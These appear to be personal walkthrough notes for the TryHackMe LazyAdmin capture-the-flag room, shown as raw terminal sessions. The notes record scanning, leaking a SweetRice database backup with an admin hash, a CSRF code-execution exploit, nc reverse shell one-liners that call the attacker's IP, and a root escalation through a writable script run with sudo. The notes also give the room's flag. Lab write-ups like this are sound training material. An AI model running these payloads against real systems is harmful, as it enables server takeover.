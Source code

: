 kali@kali:~/oscptraining/tryhackme/Lazyadmin$ nmap -sV -sC -o nmap 10.10.141.253
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-17 03:25 EDT
Nmap scan report for 10.10.141.253
Host is up (0.34s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                                                                                                                       
| ssh-hostkey:                                                                                                                                                                                          
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)                                                                                                                                          
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)                                                                                                                                         
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)                                                                                                                                       
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))                                                                                                                                                     
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                                                                                            
|_http-title: Apache2 Ubuntu Default Page: It works                                                                                                                                                     
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel   

kali@kali:~/oscptraining/tryhackme/Lazyadmin$ gobuster dir -e -u http://10.10.141.253 -w /usr/share/wordlists/dirb/common.txt
===============================================================                                                                                                                                         
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.141.253
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/10/17 03:31:59 Starting gobuster
===============================================================
http://10.10.141.253/.hta (Status: 403)
http://10.10.141.253/.htpasswd (Status: 403)
http://10.10.141.253/.htaccess (Status: 403)
http://10.10.141.253/content (Status: 301)
http://10.10.141.253/index.html (Status: 200)
http://10.10.141.253/server-status (Status: 403)
===============================================================
2020/10/17 03:34:44 Finished
===============================================================


http://10.10.141.253/content (Status: 301)

Sweetrice? Lets look on searchsploit



kali@kali:~/oscptraining/tryhackme/Lazyadmin$ cat /usr/share/exploitdb/exploits/php/webapps/40718.txt
Title: SweetRice 1.5.1 - Backup Disclosure
Application: SweetRice
Versions Affected: 1.5.1
Vendor URL: http://www.basic-cms.org/
Software URL: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
Discovered by: Ashiyane Digital Security Team
Tested on: Windows 10
Bugs: Backup Disclosure
Date: 16-Sept-2016


Proof of Concept :

You can access to all mysql backup and download them from this directory.
http://localhost/inc/mysql_backup

and can access to website files backup from:
http://localhost/SweetRice-transfer.zip

going to the page we see a sql file

http://10.10.141.253/content/inc/mysql_backup/

  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',

  seems like we got a clue here

admin: manager
pwd: 42f749ade7f9e195bf475f37a44cafcb

  Password123


  kali@kali:~/oscptraining/tryhackme/Lazyadmin$ cat /usr/share/exploitdb/exploits/php/webapps/40700.html
<!--
# Exploit Title: SweetRice 1.5.1 Arbitrary Code Execution
# Date: 30-11-2016
# Exploit Author: Ashiyane Digital Security Team
# Vendor Homepage: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1


# Description :

# In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
PHP Codes In Ads File
# A CSRF Vulnerabilty In Adding Ads Section Allow To Attacker To Execute
PHP Codes On Server .
# In This Exploit I Just Added a echo '<h1> Hacked </h1>'; phpinfo(); 
Code You Can
Customize Exploit For Your Self .

# Exploit :
-->

<html>
<body onload="document.exploit.submit();">
<form action="http://localhost/sweetrice/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
&lt;/textarea&gt;
</form>
</body>
</html>

<!--
# After HTML File Executed You Can Access Page In
http://localhost/


kali@kali:~/oscptraining/tryhackme/Lazyadmin$ subl 40700.html
do some edit; put the reverse shell code in from pentestmonkey in the content, run it
kali@kali:~/oscptraining/tryhackme/Lazyadmin$ firefox 40700.html

run this
10.10.52.59/content/inc/ads/hacked.php



kali@kali:~/oscptraining/tryhackme/Lazyadmin$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.102.117] from (UNKNOWN) [10.10.52.59] 44358
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 09:11:03 up  1:21,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ python -c 'import pty; pty.spawn("/bin/bash")'

www-data@THM-Chal:/$ whoami
whoami
www-data
www-data@THM-Chal:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
www-data@THM-Chal:/$ 


www-data@THM-Chal:/home/itguy$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.
    
www-data@THM-Chal:/home/itguy$ cat /home/itguy/backup.pl
cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");

copy.sh in the /etc/ directory will run when we execute backup.pl file, lets check out whats the file is about

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

a reverse shell, lets rewrite it to our own IP address

echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.102.117 4444 >/tmp/f' > /etc/copy.sh

open netcat on kali
nc -lvnp 4444

run this on victim
sudo /usr/bin/perl /home/itguy/backup.pl

and we caught the shell and is in as root!

# whoami
root
# cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}


completed on 18oct2020 1445hr






